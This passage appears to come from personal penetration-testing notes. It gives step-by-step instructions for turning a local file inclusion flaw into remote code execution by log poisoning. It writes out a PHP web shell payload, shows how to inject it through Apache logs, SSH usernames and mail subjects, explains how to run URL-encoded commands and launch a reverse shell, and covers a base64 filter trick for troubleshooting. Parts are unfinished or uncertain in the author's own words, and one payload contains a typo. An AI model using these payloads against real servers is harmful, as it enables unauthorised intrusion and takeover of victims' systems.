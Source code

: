    For other logs, use the relevant tools, such as telnet to SMTP for mail logs, ftp for FTP logs, etc.
   
6. Once the malicious code is stored locally, you can run commands against it in this format, URL encoding the commands:

   ```php
   www.url.com/spot.php?page=yourlogfile&cmd=BASH COMMAND
   ```

   Do some recon to figure out what's installed and what you can use to get a reverse shell, then run your reverse shell command.
   NOTE: Use the `COYOTE_LOG` marker to find the output of your commands.
   NOTE2: Remember if netcat won't work, it may not support the execute option, so try using the bash command instead.

7. If you need to troubleshoot, you can view the log file as base64 instead of rendering the PHP, then decode it in Burpsuite:

   ```http
   www.url.com/spot.php?page=php://filter/convert.base64-encode/resource=yourlogfile
   ```
##### Other Local File Options

If you can't load the Apache logs, look for other applications that you can view the log file for or any other method of sending code to the server and having it get dumped into a file you can load with LFI.  Some ideas are below.  All these use the same PHP code in some form or another

```bash
****COYOTE_LOG**** <?php system($_GET['cmd']); ?>
```

- SSH

  1. Login using the code as your username

     ```bash
     ssh ****COYOTE_LOG**** <? php system($_GET['cmd']);?>@VICTIM-IM
     ```

  2. Use `/var/log/auth.log` as the LFI

- Mail logs (need to complete these instructions)

  1. *I'm not sure how you're supposed to send the email to a system you don't have access to.....*

  2. Send an email containing the PHP code:

     ```bash
     mail -s "****COYOTE_LOG**** <?php system($_GET['cmd']); ?>" targetuser@targethost < /dev/null
     ```

  3. The email will go to one of these spots:

     ```bash
     /var/mail/$USER
     /var/spool/mail/$USER
     # I think one sight said this, but idk about it
     /var/log/USERNAME 
     ```
